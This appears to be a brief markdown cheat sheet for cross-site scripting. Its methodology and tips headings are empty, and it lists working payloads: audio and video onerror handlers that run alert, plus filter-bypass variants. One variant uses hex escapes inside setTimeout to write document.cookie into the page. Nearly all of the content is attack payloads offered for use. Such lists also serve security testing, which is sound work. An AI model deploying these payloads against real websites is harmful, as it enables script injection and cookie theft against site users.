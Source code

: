 
### 1.Methodology


### 2.Tips!


### 3.Payloads
```
<audio src=x onerror=alert(0)>
<video src=x onerror=alert(0)>
```

#### 3.1 Filter Bypass
```
[1].map(alert)
(alert)(1)
javascript:setTimeout`\x64ocument.write\x28\x64ocument.\x63ookie\x29`
```
